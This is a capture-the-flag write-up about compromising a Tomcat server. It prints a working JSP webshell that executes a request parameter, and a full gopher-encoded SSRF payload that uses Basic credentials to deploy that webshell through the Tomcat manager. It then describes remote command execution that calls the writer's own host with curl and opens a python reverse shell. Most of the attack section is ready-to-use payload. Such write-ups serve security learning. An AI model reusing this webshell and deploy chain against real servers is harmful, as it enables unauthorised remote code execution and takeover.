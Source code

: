 ```
<%!
void f(String k) throws java.io.IOException{
  Runtime.getRuntime().exec(k == null ? "true": k);
}
%>
<% f(request.getParameter("_")); %>
```

Note: Actually you can use a common webshell, but I found when the POST body is more than 1200 bytes, the connection will time out. I think it's due to the firewall, since pwn2win CTF uses some VPN isolated environment for this challenge. After I get the shell of the remote machine and I try to download some other files from my computer, the connection will timeout once the file size is more than 1200 bytes approximately. Thus I have to split the file into small pieces......

 ow we can just mimic the request using gopher. Unfortunately, the JAVA XXE gopher protocol doesn't support all the non-ascii characters. Any character above than `%7f` will lead to some problems. gopher will append some `\xc2` `\xc3` ...... In BlackHat 2012, SSRF VS. Business by Polyakov et al. mentioned this behevior. Refer to the [slide P.71](https://media.blackhat.com/bh-us-12/Briefings/Polyakov/aBH_US_12_Polyakov_SSRF_Business_Slides.pdf) and [paper P.25](https://media.blackhat.com/bh-us-12/Briefings/Polyakov/BH_US_12_Polyakov_SSRF_Business_WP.pdf). Thanks to @pimps for letting me know that.
 
>The symbols from 7A to 88 in hex were changed by gopher to the `?` symbol.

However, @pimps creates a amazing tool [gopher-tomcat-deployer](https://github.com/pimps/gopher-tomcat-deployer) to create a zip file in ASCII range (0x00-0x7f):

1. Timestamp: simply set it to a time in ASCII range
2. CRC32: just append whitespace in the uncompresseed file and try to recompute again

Finally, the payload: 

```
<%!void f(String k)throws java.io.IOException{Runtime.getRuntime().exec(k==null?"true":k);}%><%f(request.getParameter("_"));%>

gopher://localhost:8080/_PUT%20/manager/deploy%3Fpath%3D/_%20HTTP/1.1%0D%0AHost%3A%20localhost%3A8080%0D%0AContent-Length%3A%20183%0D%0AAuthorization%3A%20Basic%20YWRtaW46c3VwM3JzM2NyM3RwNHNzYzBkMw%3D%3D%0D%0AConnection%3A%20close%0D%0A%0D%0APK%03%04%14%00%00%00%00%00%00%00%21%00Z%7D%03%1EK%00%00%00K%00%00%00%05%00%00%00c.jsp%3C%25Runtime.getRuntime%28%29.exec%28request.getParameter%28%22_%22%29%29%3B%25%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20PK%01%02%14%03%14%00%00%00%00%00%00%00%21%00Z%7D%03%1EK%00%00%00K%00%00%00%05%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00c.jspPK%05%06%00%00%00%00%01%00%01%003%00%00%00n%00%00%00%00%00
```

Then visit `http://10.133.70.7:8080/_/c.jsp?_=curl MYIP` to get RCE. I don't know why the bash reverse shell doesn't work, so I use python revere shell with [pty](https://evertpot.com/189/). Simply run `su -` with password `RCE_TO_PWN_ME` to get the flag in `/root`!

`CTF-BR{{W00T_RCE???_ALL_HAIL_TO_GOPHER_THE_BEAVER_OF_PWNAGE}` . There is an extra `{` in the flag.

#### jar (Possibly Intended Solution 2)

In the tomcat manager doc, it supports [deploy WAR application from a local file](https://tomcat.apache.org/tomcat-6.0-doc/manager-howto.html#Deploy_a_Directory_or_WAR_by_URL). If we can somehow upload a malicious WAR file to the server, we can deploy the application using `file:/PATH`.
